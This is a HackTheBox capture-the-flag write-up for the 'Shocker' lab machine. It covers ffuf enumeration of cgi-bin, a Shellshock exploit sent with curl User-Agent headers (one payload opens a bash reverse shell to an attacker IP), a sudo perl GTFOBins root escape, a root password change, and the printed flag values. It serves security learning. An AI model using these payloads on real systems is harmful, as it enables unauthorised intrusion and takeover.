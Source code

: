 ```yaml
---
title: HackTheBox - Shocker
author: yufong
categories: [HackTheBox, HackTheBox - Linux]
date: 2022-08-20
tags: [exploit/shell-shock, linux-priv-esc/sudo/gtfo-bin ]
img_path: /_posts/Writeups/HackTheBox/Linux/Shocker/images/
image:
  path: /_posts/Writeups/HackTheBox/Linux/Shocker/images/Pasted%20image%2020220820044938.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```




# Overview 
This machine begins w/ a web directory enumeration, finding a `cgi-bin/` directory, and by further enumerating the found directory (`cgi-bin/`), a bash script is found, allowing us to use an exploit called shellshock to execute commands, obtaining a low-privilege shell/`shelly `shell.

On the system, the `shelly` has a sudoers entry that allows `shelly` to execute `perl` as `root`, which is exploitable allowing us to spawn a `root` shell.

---

| Column       | Details     |
| ------------ | ----------- |
| Box Name     | Shocker     |
| IP           | 10.10.10.56 |
| Points       | -           |
| Difficulty   | Easy        |
| Creator      | [mrb3n](https://www.hackthebox.com/home/users/profile/2984)            |
| Release Date |   30-Sep-2017          |


# Recon


## TCP/80 (HTTP)
### FFUF
```
                        [Status: 200, Size: 137, Words: 9, Lines: 10]
.hta                    [Status: 403, Size: 290, Words: 22, Lines: 12]
.htaccess               [Status: 403, Size: 295, Words: 22, Lines: 12]
.htpasswd               [Status: 403, Size: 295, Words: 22, Lines: 12]
cgi-bin/                [Status: 403, Size: 294, Words: 22, Lines: 12]
index.html              [Status: 200, Size: 137, Words: 9, Lines: 10]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]
```
- `cgi-bin` directory is found

# Initial Foothold

## TCP/80 (HTTP) - Shell Shock
1. Since the machine is called `Shocker` and we find a `cgi-bin` directory, it is very likely our initial foothold is obtained via [shellshock](https://yufongg.github.io/posts/Shellshock-via-cgi-bin/)
2. Enumerate `cgi-bin` directory, [specifying scripting language extensions](https://en.wikipedia.org/wiki/Scripting_language)
	```
	┌──(root💀kali)-[~/htb/shocker/10.10.10.56/loot]
	└─# ffuf -u http://shocker.htb/cgi-bin/FUZZ -w /usr/share/wordlists/dirb/common.txt -e '.cgi,.pl,.sh,.ps1,.py,.php'
	
	user.sh                 [Status: 200, Size: 118, Words: 19, Lines: 8]
	```
	- `user.sh`
3. Attempt shellshock on `/cgi-bin/user.sh`
	```
	┌──(root💀kali)-[~/htb/shocker/10.10.10.56/loot]
	└─# curl -A "() { :;}; echo Content-Type: text/html; echo; /usr/bin/whoami;" http://shocker.htb/cgi-bin/user.sh
	shelly
	
	```
4. Obtain a shell
	```
	┌──(root💀kali)-[~/htb/shocker/10.10.10.56/loot]
	└─# curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.8/4444 0>&1' http://shocker.htb/cgi-bin/user.sh
	```
	![]({{ page.img_path }}Pasted%20image%2020220820043637.png)
5. User Flag
	![]({{ page.img_path }}Pasted%20image%2020220820043857.png)
	- `2ec24e11320026d1e70ff3e16695b233`

# Privilege Escalation

## Root - Via SUDO GTFOBins 
1. Check `shelly` sudo access
	- `/usr/bin/perl`
		- Perl has a [GTFOBins entry](https://gtfobins.github.io/gtfobins/perl/#sudo)
2. Exploit and Obtain Root Flag
	```
	sudo perl -e 'exec "/bin/sh";'
	```
	![]({{ page.img_path }}Pasted%20image%2020220820044027.png)
	- `52c2715605d70c7619030560dc1ca467`
3. Change password of `root` & SSH to obtain `root` user
	```
	# passwd  
	Enter new UNIX password: 
	Retype new UNIX password: 
	```
	![]({{ page.img_path }}Pasted%20image%2020220820044452.png)
